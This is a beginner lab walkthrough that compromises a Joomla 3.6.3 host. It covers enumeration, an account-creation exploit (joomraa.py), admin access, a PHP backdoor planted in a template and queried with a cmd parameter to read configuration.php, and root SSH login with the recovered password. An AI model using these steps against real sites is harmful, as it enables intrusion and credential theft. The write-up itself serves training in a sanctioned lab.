# CMS01 - Virtual Hacking Lab

| Info          | Details                                   |
| ------------- | ----------------------------------------- |
| Platform      | Virtual Hacking Lab                       |
| Difficulty    | Beginner                                  |
| Target IP     | 10.11.1.177                               |
| OS            | Linux                                   |
| Vulnerability | Joomla 3.6.3 |
| Tools Used    | Nmap, Gobuster, Dirsearch, Searchsploit              |

## Attack Path

1. Reconnaissance
2. Port Scanning (Nmap)
3. FTP Enumeration
4. Web Enumeration
5. Joomla Version Identification
6. Joomla Account Creation Exploit
7. Admin Panel Access
8. Web Shell Upload via Template Modification
9. Credential Harvesting from Configuration File
10. SSH Login with Recovered Credential
11. Root Access and Flag Retrieval

## Environment Setup

First, create a working directory and files to organize enumeration results.

```bash
mkdir cms01
cd cms01
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```
## Network Scanning

Identify the target IP and perform a full port scan.

```bash
ip='10.11.1.177'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



Discoverd port: ftp. ssh, http, and mysql

## FTP enumeration

Attempt to access the FTP services.
Anonymous FTP login was attempted.

```bash
ftp $ip
anonymous::anonymous
```



Success

enumerate ftp now

```bash
ls -la
cd pub
ls -la
```



Results: found directory pub but no file included in the directory

Attempted file upload:

```bash
put test.txt
```



Results: Permission denied, not allowed to upload file.

No further information could get from FTP services, move to Web enumeration

## Web Enumeration

Web App page:



Results: Display service and with its version.

`**Joomla 3.6.3**`

Before further searching service and version exploitation. Run directory traversal.

Directory brute forcing with Gobuster and dirsearch.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```

Gobuster:



dirsearch:



Useful / Interesting Directory 

```bash
/administrator
/robots.txt.dist
```

/administrator: Display an admin panel of joomla 3.6.3



/robots.txt.dist: Didn't display any useful information



## Vulnerability Research

Start search version vulnerabilities for `Joomla 3.6.3`

```bash
searchsploit Joomla 3.6.4
```



## Exploitation

```bash
searchsploit -m 40637

#read the file
cat 40637.txt
```



From the script, it redirect me to another link to download the exploitation folder

`https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/40637.zip`

```bash
unzip 40637.zip
cd 40637
chmod +x joomraa.py
```

follow the scripts run the exploit

```bash
python3 joomraa.py --username hacker -p password -e hacker@gmail.com http://10.11.1.177
```



Results: shown successful create an account but failed to upload an exploitation script. 

## Admin Panel Access

Try to login in `http://10.11.177/administrator/index.php`
with password `hacker::password`



Results: Success logged in to the account I created

In **User Notes**: found another new passwords
`administrator::joomlaadministrator`



administrator also a **Super User**, logout the current account and logged in to **administrator** account

## Post Exploitation

In templates, modify the index.php, and checked if i can use for Reverse PHP shell.
Location: Templates → Protostar → index.php



reverse php shell failed. Thus, try another malicious php code.
Tried simple backdoor php code. Success
Since I cannot use reverse shell, thus use simple shell to get more information.

List out the configuration page 
`http://10.11.1.177/templates/protostar/hello.php?cmd=cat%20%20/var/www/html/configuration.php`



found a new password and username for database
root::root1988

Try to login to mysql since is a database username and password.



Results: Return connection failed. My machine doesn't allowed to login.

Next, try ssh login with all the information i have

```bash
ssh root@10.11.1.177 -oHostKeyAlgorithms=+ssh-rsa
```

Results: Success with root::root1988

### Retrieve the flag

```bash
whoami
id
date

cat /root/key.txt
```


